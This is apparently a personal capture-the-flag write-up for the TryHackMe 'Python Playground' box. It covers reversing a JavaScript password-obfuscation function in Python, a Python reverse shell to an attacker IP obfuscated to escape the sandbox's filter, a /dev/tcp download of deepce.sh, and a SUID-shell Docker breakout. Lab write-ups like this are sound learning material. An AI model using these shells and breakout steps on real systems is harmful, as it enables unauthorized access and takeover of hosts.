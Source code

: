 # Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nmap found:
![](csabd.png)

![](supersecretpanel.png)



```javascript
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```
``

## Exploit

Super secret python playground.
![](athreattosecurity.png)


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success

![](importmod.png)

![](open0.png)

Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding
"so tropmi"[::-1]

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](rootinthedockercontainer.png)




## Docker Bre..ssh Connor Site remember... but PrivEsc

Docker enumeration
```bash
mount # Key 
```

![](dockerprocs.png)

Transfer Deepce.sh
```bash
# Use nc to serve the file
nc -lvnp 80 < deepce.sh
# Target machine
bash -c "cat < /dev/tcp/10.14.43.145/80 > /tmp/deepce.sh"
```

Annoyingly we could just ssh in a connor as we know it connors site...
![](roothasscripts.png)

![](weirdport.png)

![](weirdport.png)

```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.
```
  
![](privescthrutoroot.png)

## Beyond Root


